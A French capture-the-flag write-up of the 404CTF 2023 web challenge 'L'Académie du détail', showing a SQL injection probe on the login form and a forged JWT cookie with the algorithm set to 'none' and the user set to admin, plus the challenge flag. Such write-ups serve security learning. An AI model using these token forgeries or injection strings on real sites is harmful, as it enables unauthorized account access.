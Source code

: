 ****
**Catégorie**: WEB - **Difficulté**: Facile 
# L'Académie du détail

****

***Synopsis*** :
  > Le nez plongé dans votre café noir, vous parcourez d'un rapide coup d'œil la une du journal fraichement paru. L'un des titres vous interpelle :
  
  >> ***Mars 1980 : L'opaque secret du nouveau membre de l'Académie Française.***
  
  >Vous parcourez alors le journal à la recherche de l'article en question. Il énonce :
  
  >>Après des heures de délibération, les Académiciens ont enfin voté pour le nouveau membre de la grande Académie Française. Mais pour des raisons que tout le monde ignore, son nom demeure secret depuis ce jour. Malgré tous leurs efforts, aucun journaliste n'a réussi a obtenir le moindre indice ou la moindre image.
  
  > Interloqué, vous vous rendez compte que l'Académie Française possède un site web. Peut être que la réponse est finalement à portée de tous, voir même plus ... !

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/chall.png">
</p>


****

## Home Page 

L'arrivée sur le site agite la réflexion d'un noob comme moi, on y retrouve :

- une série de "mots préférés" mis en avant sur la page (un mot de passe dissimulé ?)
- un caroussel (un indice ou un mot de passe caché ?)
- un lien login (peut-être une faille SQLi)
- je ne trouve rien dans le code source

Bref, plus de questions que de réponses, je décide donc de naviguer sur le site et de relire les règles avant de me précipiter. 

> Ça tombe bien, la majorité des choses que j'ai appris sont interdites, y a plus qu'a trouver autre chose.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Home page" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/home.png">
</p>


****

## Fake Flag

Je décide tout de même de tenter l'url /flag (après tout, sait-on jamais) et la **FLAG** ah bah non c'est pas ça : 
***202CTF{Bien_tenté_mais_c'est_pas_ça}***

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Fake Flag" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/fakeFlag.png">
</p>

****

## Login

Je me dirige donc vers la page login, qui révèle sans surprise un formulaire de connexion et tente :

 - le traditionnel admin sans mot de passe qui me révèle *"Données incomplètes"*
 - Je tente donc un mot de passe "*1234*" pour voir si le user admin existe, ce qui me révèle *"Mot de passe incorrect"*, j'en déduit donc que le user *admin* existe.
 - le traditionnel ' OR 1=1;-- pour me connecter mais en vain. (enfin pas tout à fait car *je suis maintenant connecté en tant que OR11*)

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Home page Identifiée en tant que OR11" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/OR11.png">
</p>

****
## Page Membres

Surpris d'être identifié, je décide d'aller voir la page "*Liste des membres*" qui est apparue dans le menu, mais ce ne sera pas si simple, il faut que j'arrive à être admin.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Patience" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/patience.png">
</p>

Après avoir fait des recherches sur la personne ayant rejoint l'académie à cette date, je tente de flag le prénom_nom de la personne (Marguerite Yourcenar) avec plein de formats différents mais rien ne flag. (Ils ont bien du rire derrière)

***Il faut que je sois admin.***

****
## Cookies

Je suis identifié, il y a probablement un cookie, go voir les cookies dans mon navigateur. 

Ok j'ai bien un cookie access-token et une valeur séparée de 3 ".", je teste donc de prendre les valeurs séparées et de les décoder de la base64. 

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Token Initial" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/tokenInit.png">
</p>

C'est parti sur le bash :

### Partie 1/3 :

```bash
cr4sh@exemple:~$ echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64 --decode

{"alg":"HS256","typ":"JWT"}
```

Ok, c'est donc un Json Web Token (JWT) en HMAC SHA-256 (HS256). 

Je vais sur la doc de JWT afin de voir un peu comment il se décompose : *Header*.*Payload*.*Signature*

### Partie 2/3 - Payload :

```bash
cr4sh@exemple:~$ echo "eyJ1c2VybmFtZSI6Ik9SMTEiLCJleHAiOjE2ODYzODY3NjB9" | base64 -d

{"username":"OR11","exp":1686386760}
```
> Pour les neophytes, ici -d équivaut à --decode présenté avant

J'ai donc mon username *OR11* et la date d'expiration du token (en timestamp)

### Partie 3 - Signature

Je me renseigne donc sur la manière de péter une clef de vérification (clef secrète ici en 256bits) mais je n'ai clairement pas les ressources ici, il va donc falloir que je trouve une autre solution.

Le JWT est effectivement signé mais est-ce que la signature est vérifiée? 

Je teste de modifier le payload en passant ***username*** à ***admin***.

```bash
cr4sh@exemple:~$ echo -n '{"username":"admin","exp":1686386760}' | base64

eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg2Mzg2NzYwfQ==
```
Une fois converti en base64, je modifie le payload dans mon navigateur (la partie du milieu) en pensant à retirer les "==" de fin , malheureusement la signature m'empêche de valider le jwt et je suis deconnecté. 

Je cherche donc sur la toile et trouve un site m'indiquant que dans le cas où la signature du token n'est pas vérifiée côté serveur, je pouvais tenter un "alg":"none" sans signature après le point suivant le payload sous le format *Header.Payload.*

On a déja modifié le payload, mais mon header est toujours sous algorythme HS256. Je décide d'essayer de me passer de l'algorythme en passant l'algorythme à none.

```bash
cr4sh@exemple:~$ echo -n '{"alg":"none","typ":"JWT"}' | base64

eyJhbGciOiJub25lIiwgInR5cCI6IkpXVCJ9
```

Je modifie donc maintenant mon cookie avec mon HeaderModifié.PayloadModifié.RienPourLaSignature

> eyJhbGciOiJub25lIiwgInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjg2Mzg2NzYwfQ.

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Token modifié" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/tokenModifie.png">
</p>

Puis retente d'accéder au contenu de la page liste membre, en étant, du fait de la modification, **admin**.

## FLAG
J'ai désormais bien le nom de la personne que j'avais trouvé précédemment "*Marguerite Yourcenar*" avec le flag. 

<p align="center">
<img alt="Screen Chall Web - Facile - L'Académie du détail - Liste de membres - Flag" src="https://github.com/Cr4Sh-Ov3R/404CTF-2023-WU/blob/main/assets/l_academie_du_detail/flag.png">
</p>

<details>
<summary>Voir le flag :</summary>
FLAG : 404CTF{JWT_M41_1MP13M3N73_=L35_Pr0813M35}
</details>

****
**Notes** :
On entends bien souvent que JWT est inviolable et que c'est le graal de la sécurité. 

Attention cependant, comme tout outil, si la vérification n'est pas faite ou pas de la bonne manière, il est de fait possible de l'outrepasser.

Ce chall m'a également permis de découvrir l'outil CyberChef qui devrait se révéler très utile à l'avenir

****
**Remerciements** :
Merci à 7h30th3r0n3 pour la relecture de ce wu et la découverte, au moment où j'écris ces lignes, de cyber chef en complément du bash pour encoder décoder en base64, et bien d'autres choses

****
**404CTF 2023** - *Cr4Sh*
****
